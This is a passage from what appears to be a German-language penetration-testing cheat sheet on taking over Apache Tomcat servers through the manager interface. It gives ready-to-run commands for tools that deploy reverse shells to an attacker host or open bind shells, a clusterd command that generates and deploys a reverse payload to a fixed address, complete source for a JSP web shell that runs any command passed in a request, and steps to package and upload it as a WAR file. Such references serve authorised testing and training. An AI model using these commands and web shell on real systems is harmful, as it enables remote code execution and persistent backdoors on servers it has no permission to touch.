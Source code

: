 In einigen Szenarien funktioniert dies nicht (zum Beispiel bei alten Versionen von Sun)

#### Herunterladen
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### Reverse-Shell
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### Bind-Shell
```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```
### Verwendung von [Culsterd](https://github.com/hatRiot/clusterd)
```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### Manuelle Methode - Web-Shell

Erstellen Sie **index.jsp** mit diesem [Inhalt](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp):
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
Du könntest auch dies installieren (ermöglicht Upload, Download und Befehlsausführung): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

